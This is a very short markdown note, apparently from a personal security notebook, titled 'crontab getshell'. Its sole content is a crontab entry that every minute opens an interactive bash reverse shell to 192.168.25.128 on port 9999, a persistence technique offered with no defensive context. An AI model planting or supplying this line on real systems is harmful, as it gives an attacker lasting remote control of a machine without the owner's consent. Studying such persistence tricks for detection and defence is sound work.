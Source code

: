 ```yaml
---
title: "crontab getshell"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:40:09+08:00
draft: false
---
```


## 一分钟内执行 {#一分钟内执行}

```text
*/1 * * * * bash -i >& /dev/tcp/192.168.25.128/9999 0>&1
```

